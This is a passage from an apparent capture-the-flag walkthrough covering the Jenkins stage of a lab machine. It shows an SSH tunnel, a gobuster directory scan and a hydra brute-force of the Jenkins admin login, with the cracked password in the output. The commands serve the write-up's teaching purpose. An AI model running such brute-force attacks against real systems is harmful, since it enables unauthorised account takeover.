 I dig around the system a bit more as **aubreanna** and don't find anythign additional. Let's check out that Jenkins instance.

<br>

## Jenkins

In order to connect to the **Jenkins** instance we'll have to start up an ssh tunnel on our home system:

`ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.65.114`

I open up the site in my browser by going to:

```
127.0.0.1:8080/
```

and try to login as **aubreanna** and **admin** with no luck.

I run another **gobuster** scan on the Jenkins site to see what's out there:

`gobuster dir -u http://127.0.0.1:8080 -t 50 -r -b 403 -x php,txt,html -w dir-med.txt`

And get back a lot of results but almost everything is not accessable. We're left with:

```
/login                (Status: 200) [Size: 2005]
/robots.txt           (Status: 200) [Size: 71]
/oops                 (Status: 200) [Size: 6348]
```

**robots.txt** doesn't provide anything useful.

Navigating to the **/oops** directory does provide us with the Jenkins version:

```
Jenkins version 2.250
```

I check around for exploits on that version of Jenkins and don't find much. I think it's time to try brute forcing the login page here like we did previously on the WordPress site.

I start up a **hydra** attack with the following:

`hydra -l admin -P rockyou.txt -s 8080 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid username or password" -V -f`

And in less than a minute get back a successful result!

```
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

With that I head back to the login page and login:

<br>
